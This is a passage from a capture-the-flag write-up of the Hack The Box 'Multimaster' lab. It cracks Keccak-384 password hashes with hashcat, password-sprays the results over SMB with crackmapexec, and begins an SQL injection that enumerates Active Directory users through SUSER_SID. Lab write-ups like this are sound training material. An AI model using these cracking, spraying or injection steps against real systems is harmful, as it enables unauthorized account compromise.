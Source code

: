 …

Looking at these hases using an online site, it is identified as possibly Keccak-384 or SHA3-384 or SHA-384. We can use hashcat to try and crack the hashes. The mode for Keccak-384 is 17900 \(you can use hashcat --example-hashes to list all hash types\). If we try that, it succeeds in cracking 3 of them:

┌─\[rin@parrot\]─\[~/boxes/Multimaster\]

└──╼ $hashcat -a 0 -m 17900 hashes.txt /usr/share/wordlists/rockyou.txt

hashcat \(v6.1.1\) starting...

…

9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739:password1

68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813:finance1

fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa:banking1

We have found 3 passwords of password1, finance1 and banking1. Getting all of the usernames from the table and usernames from the email addresses of the staff from the website, we can try and password spray each of these passwords with crackmapexec:

┌─\[rin@parrot\]─\[/home/rin/boxes/Multimaster\]

└──╼ \#crackmapexec smb multimaster.htb -u users.txt -p passwords.txt

SMB 10.129.1.125 445 MULTIMASTER \[\*\] Windows Server 2016 Standard 14393 x64 \(name:MULTIMASTER\) \(domain:MEGACORP.LOCA

L\) \(signing:True\) \(SMBv1:True\)

SMB 10.129.1.125 445 MULTIMASTER \[-\] MEGACORP.LOCAL\aldom:password1 STATUS\_LOGON\_FAILURE

SMB 10.129.1.125 445 MULTIMASTER \[-\] MEGACORP.LOCAL\aldom:finance1 STATUS\_LOGON\_FAILURE

SMB 10.129.1.125 445 MULTIMASTER \[-\] MEGACORP.LOCAL\aldom:banking1 STATUS\_LOGON\_FAILURE

SMB 10.129.1.125 445 MULTIMASTER \[-\] MEGACORP.LOCAL\aldom: STATUS\_LOGON\_FAILURE

SMB 10.129.1.125 445 MULTIMASTER \[-\] MEGACORP.LOCAL\alyx:password1 STATUS\_LOGON\_FAILURE

SMB 10.129.1.125 445 MULTIMASTER \[-\] MEGACORP.LOCAL\alyx:finance1 STATUS\_LOGON\_FAILURE

&lt;SNIP…&gt;

Unfortunately that doesn't work. So we need to find more users. In MS SQL Server, there is a function that allows you to interrogate information about Active Directory users. Namely, we can use SUSER\_SID\('MEGACORP\Administrator'\) to return the SID of a user. Remember from the explanation of a SID that it is made up of the domain SID and the user RID. We can use another function SUSER\_SNAME to take a SID and return a username. This allows us to brute force usernames by incrementing the RID from the value of Administrator which is usually the first user, to a large number. Just to show this working,

&gt; a' union select 1,2,3,4,master.dbo.fn\_varbintohexstr\(SUSER\_SID\('MEGACORP\Administrator'\)\)-- -
